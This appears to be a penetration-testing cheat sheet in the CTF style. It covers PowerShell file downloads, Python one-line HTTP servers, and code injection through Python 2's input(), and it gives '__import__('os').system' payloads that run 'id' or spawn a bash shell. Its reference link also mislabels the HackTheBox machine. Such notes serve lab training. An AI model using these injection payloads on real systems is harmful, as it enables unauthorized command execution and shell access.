 ### Display the contents of a text file
```
type <filename>
```

### Get a file via HTTP (equivalent to wget)
```
Invoke-WebRequest -Uri http://example.com/file.zip -OutFile C:\path\to\save\file.zip
```
```
iwr http://example.com/file.zip -OutFile C:\path\to\save\file.zip
```


# Python
## Run HTTP Server
### python3
```
python -m http.server <port>
```
### python2
```
python -m SimpleHTTPServer <port>
```



## Run system command by using dynamic import
```python
__import__('os').system('id')
```
```python
__import__('os').system('/bin/bash')
```

## Exploitable python functions
### Python2
#### input()
The input() function in Python2 is known to be insecure, as it acts similar to the eval(). 
Reference: [HackTheBox "UpDown" Writeup](https://app.hackthebox.com/machines/Busqueda/writeups)
Example:
```python
import requests
url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
print "Website is up"
else:
print "Website is down"
```
This script uses input(). When asking for input, we can exploit this by using the following commands.
```python
__import__('os').system('id')
```
```python
__import__('os').system('/bin/bash')
```
